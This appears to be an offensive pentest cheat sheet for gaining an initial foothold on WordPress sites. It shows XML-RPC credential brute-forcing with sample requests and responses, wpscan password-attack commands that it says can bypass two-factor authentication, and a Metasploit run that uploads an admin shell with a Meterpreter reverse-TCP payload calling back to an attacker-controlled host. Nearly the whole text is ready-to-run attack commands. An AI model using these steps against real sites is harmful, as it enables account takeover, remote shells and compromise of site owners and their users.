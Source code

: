 # Initial Foothold

## Brute Force

### Manual

The following method names that is used for bruteforcing credentials.

```
wp.getUsersBlogs
metaWeblog.getUsersBlogs
wp.getCategories
```

When you intercept it in a proxy. This is what it looks like to send it in a request.

```xml
<methodCall>
	<methodName>wp.getUsersBlogs</methodName>
	<params>
		<param><value>admin</value></param>
		<param><value>password</value></param>
	</params>
</methodCall>
```

It'll respond in a error message if the credentials are invalid.

```xml
<methodResponse>
	<fault>
		<value>
			<struct>
				<member>
					<name>faultCode</name>
					<value><int>403</int></value>
				</member>
				<member>
					<name>faultString</name>
					<value><string>Incorrect username or password.</string></value>
				</member>
			</struct>
		</value>
	</fault>
</methodResponse>
```

### Scanner

```
$ wpscan --password-attack wp-login
```

If XML-RPC is enabled this can bypass multi-factor authentication (i.e. 2FA).

```
$ wpscan --password-attack xmlrpc

$ wpscan --password-attack xmlrpc-multicall
```

## Upload Payload

### Metasploit

```
msf > use exploit/unix/webapp/wp_admin_shell_upload

msf exploit(unix/webapp/wp_admin_shell_upload) > set payload php/meterpreter/reverse_tcp

msf exploit(unix/webapp/wp_admin_shell_upload) > set rhosts <target_IP>

msf exploit(unix/webapp/wp_admin_shell_upload) > set rport <target_PORT>

msf exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /path/to/uri

msf exploit(unix/webapp/wp_admin_shell_upload) > set lhost <attacker_IP>

msf exploit(unix/webapp/wp_admin_shell_upload) > set lport <attacker_port>

msf exploit(unix/webapp/wp_admin_shell_upload) > run
```